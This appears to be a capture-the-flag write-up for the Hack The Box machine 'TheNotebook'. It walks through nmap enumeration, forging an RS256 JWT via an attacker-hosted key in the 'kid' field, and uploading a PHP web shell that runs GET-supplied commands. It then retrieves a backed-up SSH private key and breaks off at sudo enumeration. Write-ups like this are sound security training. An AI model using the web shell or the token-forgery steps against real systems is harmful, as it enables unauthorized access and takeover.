 # The NoteBook @ Hackthebox

![image](https://user-images.githubusercontent.com/5285547/127499612-feb4ebdf-63f1-4899-b91f-14c7d161d146.png)

Link: https://app.hackthebox.eu/machines/TheNotebook

## Enumeration

### Nmap

```
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
1234/tcp  open     hotline
10010/tcp filtered rxapi

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B2F904D3046B07D05F90FB6131602ED2
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
1234/tcp  open     http    SimpleHTTPServer 0.6 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
|_http-title: Directory listing for /
10010/tcp filtered rxapi
```

## Port 80

Let's check out this Note Keeper application from the nmap scan. 

![image](https://user-images.githubusercontent.com/5285547/127500008-0f75dbcf-22ac-429d-8fa7-1a0f7a1a892e.png)

Looks like a simple enough application, lets Register an account and enter the main app. 
I choose to register up as admin to see if an account existed first. 

Details
```
username: admin
password: admin
email: a@a.com
```

![image](https://user-images.githubusercontent.com/5285547/127500224-1fd6eed9-16fa-468c-93df-cde6e7e5bd18.png)

So I tried the old add a space to the admin name trick, surprisingly this worked. 

```
'admin '  # note the space after admin
```

Now logged in as user "admin " I can access notes and make a new note. 

![image](https://user-images.githubusercontent.com/5285547/127500550-21482f2b-035a-49cd-916e-6fd87c9a9e7a.png)

![image](https://user-images.githubusercontent.com/5285547/127500583-09d0c62f-1eda-48ca-b6f6-febffeddd1af.png)


I tested for vulnerabilities like xss, ssrf, crsf but didn't found anything.  
So I opened up Burp suite to check the login and auth responses. 
There I found what looked like a JWT token. 

## Jwt token (RS256)

![image](https://user-images.githubusercontent.com/5285547/127500957-9512cd21-9106-467f-a140-3c4c7aa75235.png)

Opening the token in jwt.io I can see the tokens details. 

![image](https://user-images.githubusercontent.com/5285547/127507282-88faa774-8e99-4a85-bfaa-1e4816843474.png)

Seeing the "privKey.key" and "RS265" I knew this was vunerable as we should be able to use our own  
certificate to authenticate the jwt token. 

Info: 
The algorithm RS256 uses the private key to sign the message and uses the public key for authentication

Let's generate a new private.key and use that to sign our jwt token with changed details.  
Doing so without the signing of the token will invalidate it. 

- Steps: 
  1. Generate a new private key
  ```
  openssl genrsa -out example.key 4096
  ```
  Credits: https://www.freecodecamp.org/news/openssl-command-cheatsheet-b441be1e8c4a/
  
  2. Start a web server in the directory with the example.key file in. 
  ```
  python3 -m http.server 80
  ```

  3. Change the values in the token. 

  ```
  change the "kid" value to your hosted file
  change the username to "admin" (without the space now)
  change the "admin_cap" to 1
  Add the example.key to the "private" field on jwt.io
  ```

  ![image](https://user-images.githubusercontent.com/5285547/127506901-2b9fc01a-9856-487a-ad51-1be068ef7152.png)

  4. Take the new token and reaplce it for the token on the webpage (cookies) 

  ![image](https://user-images.githubusercontent.com/5285547/127503185-0131b6b5-1410-4f06-8e88-2c6f488fff57.png)

   Now refresh the page to become the real admin and check out the new notes. 

  ![image](https://user-images.githubusercontent.com/5285547/127507069-16871b30-886d-429f-85c6-f6b095b25412.png)



One of the notes suggests that PHP can be executed and now we have access to upload files,  
let's try for a reverse shell. 

Upload a basic shell first. 

shell_web.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
![image](https://user-images.githubusercontent.com/5285547/127510079-39ebfe5a-4cac-4a44-bdf4-9ba296077934.png)

Uploading this and then viewing the file, we can now execute commands. 
Then move onto a better shell. 

![image](https://user-images.githubusercontent.com/5285547/127510331-a1fa62dc-551b-4f15-b38d-4d6f63e2b8c4.png)


## User

Looking around the system, I find a strange backup in the /var/backups folder

```
home.tar.gz
```

I copy it to the /tmp directory and have a look inside to find an ssh key for noah the user on the box. 

```
cp /home.tar.gz /tmp
cd /tmp
gunzip home.tar.gz
tar -xvf home.tar
cd home/noah/.ssh
cat id_rsa
```

Using the id_rsa key we can login as noah

```
nano noah_id_rsa
#Paste in the id_rsa you got
#close and save file

chmod 600 noah_id_rsa
ssh -i noah_id_rsa noah@10.10.10.230
```

![image](https://user-images.githubusercontent.com/5285547/127514317-703f435b-7c36-4f02-9e83-5af12cab84a8.png)

Then go ahead and get the user.txt flag! 

## Root

Looking at "sudo -l" shows something intresting!

![image](https://user-images.githubusercontent.com/5285547/127515744-fcfcd06d-c6da-4513-b21d-a23349c61d3f.png)

Looks like a docker escape or path/command abuse based on the wildcard "\*" after webapp-dev01








